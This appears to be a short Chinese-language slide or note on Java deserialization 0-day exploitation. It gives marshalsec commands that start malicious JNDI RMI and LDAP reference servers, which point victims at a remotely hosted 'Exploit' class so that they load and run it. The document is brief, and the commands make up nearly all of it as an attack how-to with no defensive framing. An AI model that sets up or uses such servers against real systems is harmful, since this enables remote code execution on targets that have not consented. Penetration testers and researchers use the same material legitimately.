

反序列化0day漏洞
# marshalsec使用
https://github.com/mbechler/marshalsec
开启rmi服务，恶意类放到服务上
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:8080/#Exploit 1099
开启ldap服务
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8080/#Exploit 1389